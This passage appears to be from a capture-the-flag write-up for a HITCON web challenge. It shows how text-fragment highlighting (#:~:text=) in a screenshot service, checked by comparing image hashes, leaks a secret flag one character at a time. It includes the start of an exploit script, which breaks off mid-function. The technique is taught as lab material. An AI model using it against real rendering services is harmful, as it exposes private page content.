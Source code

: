  For example if we take a screenshot of `http://localhost:8000/flag#:~:text=hitcon{,}` we get this image :

 ![frag](frag.png)

 `#:~:text=hitcon{,}` commands the browser to highlight any text starting with `hitcon{` and ending with `}`

 So we can use this feature to leak the content of the web page by bruteforcing each character of the flag individually.

 and looking at this 
 ```python
FLAG   = 'hitcon{%s}' % '-'.join(md5(secret).hexdigest())
 ```

 we know that `0123456789abcdef-` (hex and dashes) are the only characters in the flag.

so we want to make a script to leak the flag but first we had to find a way to detect images with highlighted text programmatically.

We downloaded a few screenshots of `http://localhost:8000/flag` generated by the app and we noticed that it's the exact same image each time so it'll have the same `md5` hash each time an image doesn't have a highlighted text, and the hash was `59562acafb6436ea5fdf660ec57df0cc` otherwise it means that some text is highlighted which means that the character we are trying is part of the flag.

So we made a bit of a messy script to leak the flag 

exploit.py :

```python
import sys, os
from bs4 import BeautifulSoup
import requests
from urllib.parse import unquote

target = sys.argv[1]
flag=""
payload = "http://localhost:8000/flag%23:~:text=hitcon{#flag,}"
chars="0123456789abcdef"

def get_img(char):
        res = requests.get(target+"submit?url="+payload.replace("#flag",flag+char)).text
        soup = BeautifulSoup(res, 'html.parser')
```